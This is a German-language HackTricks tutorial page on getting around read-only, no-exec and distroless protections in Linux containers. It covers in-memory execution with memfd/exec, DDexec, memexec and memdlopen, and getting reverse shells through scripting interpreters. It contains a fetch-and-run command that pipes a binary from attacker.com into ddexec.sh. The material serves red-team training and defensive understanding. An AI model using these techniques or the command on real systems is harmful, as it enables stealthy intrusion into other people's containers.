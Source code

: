 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Wenn du an einer **Hacking-Karriere** interessiert bist und das Unhackbare hacken möchtest - **wir stellen ein!** (_fließend Polnisch in Wort und Schrift erforderlich_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In den folgenden Videos findest du die auf dieser Seite erwähnten Techniken ausführlicher erklärt:

* [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## read-only / no-exec Szenario

Es ist immer häufiger anzutreffen, dass Linux-Maschinen mit **schreibgeschütztem (ro) Dateisystemschutz** gemountet werden, insbesondere in Containern. Das liegt daran, dass es so einfach ist, einen Container mit ro Dateisystem zu betreiben, wie **`readOnlyRootFilesystem: true`** im `securitycontext` festzulegen:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Allerdings, selbst wenn das Dateisystem als ro gemountet ist, wird **`/dev/shm`** weiterhin beschreibbar sein, sodass es falsch ist zu sagen, dass wir nichts auf der Festplatte schreiben können. Diese Ordner werden jedoch **mit no-exec-Schutz gemountet**, sodass du eine hier heruntergeladene Binärdatei **nicht ausführen kannst**.

{% hint style="warning" %}
Aus der Perspektive eines Red Teams macht dies das **Herunterladen und Ausführen** von Binärdateien, die sich nicht bereits im System befinden (wie Backdoors oder Aufzähler wie `kubectl`), **kompliziert**.
{% endhint %}

## Einfachster Bypass: Skripte

Beachte, dass ich von Binärdateien gesprochen habe, du kannst **jedes Skript ausführen**, solange der Interpreter auf der Maschine vorhanden ist, wie ein **Shell-Skript**, wenn `sh` vorhanden ist, oder ein **Python-Skript**, wenn `Python` installiert ist.

Allerdings reicht das nicht aus, um deine Binär-Backdoor oder andere Binärwerkzeuge auszuführen, die du möglicherweise benötigst.

## Speicher-Bypässe

Wenn du eine Binärdatei ausführen möchtest, aber das Dateisystem dies nicht zulässt, ist der beste Weg, dies zu tun, indem du sie **aus dem Speicher ausführst**, da die **Schutzmaßnahmen dort nicht gelten**.

### FD + exec syscall Bypass

Wenn du einige leistungsstarke Skript-Engines auf der Maschine hast, wie **Python**, **Perl** oder **Ruby**, könntest du die Binärdatei herunterladen, um sie aus dem Speicher auszuführen, sie in einem Speicher-Dateideskriptor (`create_memfd` syscall) speichern, der nicht durch diese Schutzmaßnahmen geschützt ist, und dann einen **`exec` syscall** aufrufen, der den **fd als die auszuführende Datei angibt**.

Dafür kannst du leicht das Projekt [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) verwenden. Du kannst ihm eine Binärdatei übergeben, und es wird ein Skript in der angegebenen Sprache generiert, das die **Binärdatei komprimiert und b64 kodiert** mit den Anweisungen, um sie in einem **fd** zu **dekodieren und zu dekomprimieren**, das durch den Aufruf des `create_memfd` syscalls erstellt wird, und einen Aufruf des **exec** syscalls, um sie auszuführen.

{% hint style="warning" %}
Dies funktioniert nicht in anderen Skriptsprache wie PHP oder Node, da sie keinen d**efault Weg haben, rohe syscalls** aus einem Skript aufzurufen, sodass es nicht möglich ist, `create_memfd` aufzurufen, um den **Speicher fd** zu erstellen, um die Binärdatei zu speichern.

Darüber hinaus wird das Erstellen eines **regulären fd** mit einer Datei in `/dev/shm` nicht funktionieren, da du sie nicht ausführen darfst, weil der **no-exec-Schutz** gilt.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) ist eine Technik, die es dir ermöglicht, den **Speicher deines eigenen Prozesses** zu **modifizieren**, indem du dessen **`/proc/self/mem`** überschreibst.

Daher kannst du, indem du **den Assembly-Code kontrollierst**, der vom Prozess ausgeführt wird, einen **Shellcode** schreiben und den Prozess "mutieren", um **beliebigen Code auszuführen**.

{% hint style="success" %}
**DDexec / EverythingExec** ermöglicht es dir, deinen eigenen **Shellcode** oder **jede Binärdatei** aus dem **Speicher** zu laden und **auszuführen**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Für weitere Informationen zu dieser Technik, siehe das Github oder:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) ist der natürliche nächste Schritt von DDexec. Es ist ein **DDexec Shellcode, der demonisiert wurde**, sodass Sie jedes Mal, wenn Sie **eine andere Binärdatei ausführen** möchten, DDexec nicht neu starten müssen. Sie können einfach den Memexec-Shellcode über die DDexec-Technik ausführen und dann **mit diesem Daemon kommunizieren, um neue Binärdateien zu laden und auszuführen**.

Ein Beispiel, wie man **memexec verwendet, um Binärdateien von einem PHP-Reverse-Shell auszuführen**, finden Sie unter [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Mit einem ähnlichen Zweck wie DDexec ermöglicht die Technik [**memdlopen**](https://github.com/arget13/memdlopen) eine **einfachere Möglichkeit, Binärdateien** im Speicher zu laden, um sie später auszuführen. Es könnte sogar ermöglichen, Binärdateien mit Abhängigkeiten zu laden.

## Distroless Bypass

### Was ist distroless

Distroless-Container enthalten nur die **minimalen Komponenten, die notwendig sind, um eine bestimmte Anwendung oder Dienst auszuführen**, wie Bibliotheken und Laufzeitabhängigkeiten, schließen jedoch größere Komponenten wie einen Paketmanager, eine Shell oder Systemdienstprogramme aus.

Das Ziel von Distroless-Containern ist es, die **Angriffsfläche von Containern zu reduzieren, indem unnötige Komponenten eliminiert** und die Anzahl der ausnutzbaren Schwachstellen minimiert wird.

### Reverse Shell

In einem Distroless-Container finden Sie möglicherweise **nicht einmal `sh` oder `bash`**, um eine reguläre Shell zu erhalten. Sie werden auch keine Binärdateien wie `ls`, `whoami`, `id`... finden, alles, was Sie normalerweise in einem System ausführen.

{% hint style="warning" %}
Daher werden Sie **nicht** in der Lage sein, eine **Reverse Shell** zu erhalten oder das System wie gewohnt zu **enumerieren**.
{% endhint %}

Wenn der kompromittierte Container jedoch beispielsweise eine Flask-Webanwendung ausführt, ist Python installiert, und daher können Sie eine **Python-Reverse-Shell** erhalten. Wenn es Node ausführt, können Sie eine Node-Reverse-Shell erhalten, und dasselbe gilt für die meisten **Skriptsprache**.

{% hint style="success" %}
Mit der Skriptsprache könnten Sie das **System enumerieren**, indem Sie die Sprachfähigkeiten nutzen.
{% endhint %}

Wenn es **keine `read-only/no-exec`**-Schutzmaßnahmen gibt, könnten Sie Ihre Reverse Shell missbrauchen, um **Ihre Binärdateien im Dateisystem zu schreiben** und sie **auszuführen**.

{% hint style="success" %}
In dieser Art von Containern werden diese Schutzmaßnahmen jedoch normalerweise vorhanden sein, aber Sie könnten die **vorherigen Techniken zur Ausführung im Speicher verwenden, um sie zu umgehen**.
{% endhint %}

Sie finden **Beispiele**, wie man **einige RCE-Schwachstellen ausnutzt**, um Skriptsprache **Reverse Shells** zu erhalten und Binärdateien aus dem Speicher auszuführen, unter [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Wenn Sie an einer **Hacking-Karriere** interessiert sind und das Unhackbare hacken möchten - **wir stellen ein!** (_fließend Polnisch in Wort und Schrift erforderlich_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
